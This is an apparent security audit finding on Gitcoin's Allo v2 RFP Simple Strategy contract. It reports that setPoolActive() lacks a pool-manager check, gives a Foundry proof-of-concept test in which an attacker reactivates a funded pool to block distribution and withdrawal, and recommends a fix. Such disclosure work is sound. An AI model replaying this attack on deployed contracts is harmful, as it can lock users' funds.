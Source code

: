 Digital Berry Horse

high

# Anyone can active or deactivate RFP Strategy pools
Anyone can active or deactivate RFP Strategy pools since there is no check if the _msg.sender_ has the pool manager role when calling _setPoolActive()_
## Vulnerability Detail
As there is no validation in the function _setPoolActive()_ that the _msg.sender_ is a _poolManager_, anyone can call it activating or deactivating a pool. Example with loss of funds: once the strategy is funded and ready to _distribute_, an attacker could reactivate the pool, making it impossible to _distribute_ or to _withdraw_, since both functions require the pool to be inactive in order to call them. Here is a PoC:

      function test_setPoolActiveAttacker() public {
          address recipientId = __register_setMilestones_allocate_submitUpcomingMilestone();
          vm.deal(pool_admin(), 1e19);
          
          // Pool is funded: this funds will be lost
          vm.startPrank(pool_admin());
          allo().fundPool{value: 1e19}(poolId, 1e19);
          assertEq(strategy.isPoolActive(), false);
          vm.stopPrank();
          
          // Attacker reactivates tge pool
          vm.startPrank(makeAddr("Attacker"));
          strategy.setPoolActive(true);
          assertEq(strategy.isPoolActive(), true); 
          vm.stopPrank();
          
          // Not able to distribute
          vm.expectRevert(POOL_ACTIVE.selector);
          vm.prank(address(allo()));
          strategy.distribute(new address[](0), "", pool_admin());
          
          // Not able to withdraw
          vm.expectRevert(POOL_ACTIVE.selector);
          vm.prank(pool_admin());
          strategy.withdraw(1e18);
      }

## Impact
Funding pools that use a RFP Strategy will result in funds locked in the FRP Strategy contract.

## Code Snippet
Check missing:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L216-L222

Affected functions:
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L295
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L417-L423
## Tool used

Manual Review and Foundry

## Recommendation
Add the modifier _onlyPoolManager(msg.sender)_ to _setPoolActive()_.